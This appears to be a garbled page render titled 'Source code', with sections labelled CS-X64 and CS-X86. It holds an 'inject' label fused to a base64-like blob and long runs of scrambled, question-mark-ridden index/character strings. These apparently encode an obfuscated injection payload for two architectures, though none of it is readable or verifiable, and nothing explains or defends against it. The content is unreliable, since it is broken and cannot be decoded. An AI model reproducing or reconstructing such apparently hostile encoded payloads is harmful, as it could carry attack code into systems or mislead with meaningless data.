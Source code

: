 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf


wsefx45|??2,x;6?,????1;10??,m;????14??,p;????18,?M;22,?F???;2??6,f;??30,h???;34,?O;3????8????,n;42????,??W;46,????c??;5??0,l?;54??,J?;58????,I;??62,???,?;???66,D;????70,p;?74,?m?;78,l???;8??2,P;?86,Q;?90,?9;????94,T???;9???8,??d;10?2,0????;????10????6,3????;???110?,D;????114,??B;???1??18,????X;?122,????.???;126?,K?;130???,????e;???1?3????4,Q;????138,???e;?1????42,??z;14???6,??l;15????0,G?;1?54,5;?158?,R;????1????62,M;?166,2?;170????,@;???17???4,????c;178????,7;|u????yH????x???m????sg1in?tmz?tmpt???E???LMw?5vFJH???DfOv????Y?hdBb???OsHf??nPzzW?Hfocg???BnltT????NJIzB???Ij???L?S,My?5D??Drv?p????YK????om?rxml?dme???Pz1eQ??wDE?9rMf????TNt??zd??vKZ0W?ut3Df????wD????vDP????B??o??5tXA???bw?.????4e???W???Kd??tne????B?kfQU??Ptez??xHz1??rz?lw??OKG???nH?D5?jM????xR???NrbM?AIt20???Kt@?P???Mrcqp??=7=wow!
